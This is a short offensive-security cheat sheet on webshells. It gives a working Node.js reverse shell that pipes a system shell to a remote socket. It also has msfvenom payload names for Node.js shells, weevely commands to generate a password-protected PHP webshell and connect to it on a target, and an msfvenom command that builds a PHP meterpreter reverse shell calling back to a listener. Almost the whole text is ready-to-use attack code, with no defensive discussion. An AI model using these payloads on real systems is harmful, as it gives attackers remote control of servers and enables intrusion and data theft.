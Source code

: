 # Webshells

## Javascript

The following can be used as a general platform independent reverse shell:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn((process.platform.contains('win')?'cmd.exe':'/bin/sh'),[]);
    var client = new net.Socket();
    client.connect(8080, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node.js application from crashing
})();
```

Source: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)  
Source: [https://github.com/evilpacket/node-shells/blob/master/node\_revshell.js](https://github.com/evilpacket/node-shells/blob/master/node_revshell.js)

We can also use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate encoded reverse shells.

### msfvenom

```
nodejs/shell_bind_tcp
nodejs/shell_reverse_tcp
nodejs/shell_reverse_tcp_ssl
```

## PHP

These are the most common types of shells we'll be turning to, as like it or not, PHP is probably the most common type of web server application.

### weevely

Using weevely we can create php webshells:

```
weevely generate password /root/webshell.php
```

Now we execute it, point it to the remote page and get a shell in return:

```
weevely "http://192.168.1.101/webshell.php" password
```

### msfvenom

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```




